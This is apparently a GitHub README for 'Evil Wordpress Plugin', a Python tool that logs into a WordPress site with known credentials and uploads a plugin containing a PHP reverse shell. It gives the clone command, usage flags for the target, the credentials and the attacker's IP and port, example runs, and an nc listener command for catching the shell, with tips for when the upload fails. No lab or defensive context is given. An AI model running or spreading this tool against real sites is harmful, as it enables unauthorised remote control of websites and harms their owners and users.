 
# Evil Wordpress Plugin (Malicous)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password.

Install by running:

```bash
  git clone https://github.com/JoaoPedroMoreira02/Pwn_Wordpress.git
```
    
## Parameters [Running Script]

Help section (-h)

```bash
usage: Malicious.py [-h] [-t] [-u] [-p] [-L] [-P]

Wordpress Malicious plugin upload

options:
  -h, --help        show this help message and exit
  -t , --target     Target URL
  -u , --username   Wordpress Username
  -p , --password   Wordpress Password
  -L , --LHOST      Attacker IP address
  -P , --LPORT      Attacker LOCAL PORT

./app.py -t http://domain_name.com/wordpress -u User_FOX -p Pass -L 192.168.20.2 -P 4040 

```

Attacking the Target Website: 

```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

Executing Handler

```bash 
nc -lvp {LOCAL PORT}
```

The script will automatically give you the connection. 

***---> In case of complications or disconnection issues, you can just manually trigger the connection at the URL link given by the program <---***

***---> If the upload is still failing, check if the target user has Administrator permissions <---***



## 

- ***This script is set to create a reverse shell for Linux systems, but you can change it for Windows environments***




